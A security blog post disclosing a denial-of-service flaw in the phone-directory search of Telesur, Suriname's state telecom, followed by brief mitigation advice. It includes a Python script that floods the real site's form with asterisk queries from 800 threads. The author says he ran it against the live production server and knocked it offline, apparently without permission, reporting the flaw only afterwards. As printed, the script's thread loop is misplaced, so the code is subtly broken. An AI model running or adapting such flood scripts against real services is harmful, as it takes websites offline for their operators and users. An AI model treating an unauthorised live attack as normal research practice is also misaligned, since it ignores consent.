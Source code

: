 ```yaml
---
layout: post
current: post
cover:  assets/images/tele0ops/tele0ops.png
navigation: True
title: Tele0ops - Telesur Resource Starvation Attack Vulnerability
date: 2019-12-14 01:43:01
excerpt: A resource starvation vulnerability has been discovered on Telesur’s website, the government-owned telecommunications company for Suriname. The resource starvation vulnerability can lead to a Denial of Service (DoS) of the server.
description: A resource starvation vulnerability has been discovered on Telesur’s website, the government-owned telecommunications company for Suriname. The resource starvation vulnerability can lead to a Denial of Service (DoS) of the server.
tags: Exploitation
class: post-template
subclass: 'post tag-exploitation'
author: girish
---
```


# Introduction
A resource starvation vulnerability has been discovered on Telesur’s website [https://www.telesur.sr](https://www.telesur.sr), the government-owned telecommunications company for Suriname. The resource starvation vulnerability can lead to a Denial of Service (DoS) of the server, rendering the website unavailable for any visitors. In this document I will demonstrate how this vulnerability can be exploited and mitigated.

# Vulnerable Pages
The following pages are vulnerable to the resource starvation attack:

* [/mijn-telesur/telefoonboek/](https://www.telesur.sr/mijn-telesur/telefoonboek/)

# Exploitation
First, I will check whether the website is online with an online tool. I used [Uptrends](https://www.uptrends.com/tools/uptime):

![website status](/assets/images/tele0ops/1.png)

Great! Looks like it’s online.
Now let’s head over to [/mijn-telesur/telefoonboek/](https://www.telesur.sr/mijn-telesur/telefoonboek/) and look up some phone numbers:

![telesur telefoonboek](/assets/images/tele0ops/2.png)

Through random experimentation I stumbled across something interesting whenever an asterisk “*”
gets entered into the “name” field like so:

![telesur telefoonboek](/assets/images/tele0ops/3.png)

Submitting this request triggers the following error on the server:

![telesur telefoonboek error message](/assets/images/tele0ops/4.png)

It looks like the server is trying to load all the data that exists in the database into memory and return it but when it hits the maximum data that is allowed to be loaded into memory (set in the ASP.NETconfiguration) which is 20 000 000 Bytes or 20 MB it returns the above error. This is a problem when there are multiple requests like this sent to the server which causes 20 MB to be loaded into memory for every request. Depending on the amount of requests sent and the amount of memory available on the server it can lead to a resource starvation attack and render the server unresponsive.


Let’s monitor the request and try sending it with a Python script:

![telesur telefoonboek error message](/assets/images/tele0ops/5.png)

### Exploit code:

```python
#!/usr/bin/python

# exploit.py

import time
import requests
import threading

FORM_URL = 'https://www.telesur.sr/mijn-telesur/telefoonboek/'
USER_AGENT = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36'

HEADERS = {
'User-Agent': USER_AGENT
}

PAYLOAD = {
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$tbNaam': '*',
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$tbAdres': '',
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$btnSubmit': 'Zoek telefoonnummer',
    '__EVENTARGUMENT': '',
    '__EVENTTARGET': '',
    '__VIEWSTATE':
    '/wEPDwUENTM4MQ9kFgJmD2QWAmYPZBYCZg9kFgJmD2QWAgIND2QWAgILD2QWAgIBEGRkFgICAQ9kFgJmD2QWAgINDzwrABECARAWABYAFgAMFCsAAGQYAQVZY3RsMDAkY3RsMDAkY3RsMDAkQ29udGVudFBsYWNlSG9sZGVyRGVmYXVsdCRjcF9taWQkY3BfY29udGVudCRUZWxlZm9vbmJvZWtfMTEkUmVzdWx0c0dyaWQPZ2QaLq2Bl/1/EvEOj8oEFDn3CWHLEDT6Ot8njNoshplL/Q==',
    '__VIEWSTATEGENERATOR': 'CA0B0334'
}


def make_request():
    while True:
        print('Sending request...')
        requests.post(FORM_URL, data=PAYLOAD, headers=HEADERS)
        print('Done.')

    for thread_number in range(800):
        thread = threading.Thread(target=make_request)
        thread.start()
        print(f'Started thread #{thread_number}.')
```


Now let’s execute the script:


```$ python3 exploit.py```


And let’s check the website status again:

![telesur website status](/assets/images/tele0ops/6.png)

BOOM! The server is now unresponsive and we can’t load the main website.


# Mitigation
A Google search for the exception thrown returned the following Stack Overflow answer:

![Stackoverflow solution for mitigation](/assets/images/tele0ops/7.png)

> [https://stackoverflow.com/a/884248](https://stackoverflow.com/a/884248)

So you should choose the maximum amount of memory that can be loaded for every request carefully and make sure not to choose a too big amount or else the server will be vulnerable to a DoS attack. Another option would be to implement [data paging](https://stackoverflow.com/a/11789529) for the returned results from the database.


The vulnerability was discovered on 4 Oct 2019.


### Conclusion
Yeaaahh, I know, they should hire me :)

**Update (14 Dec):** This was reported to Telesur.
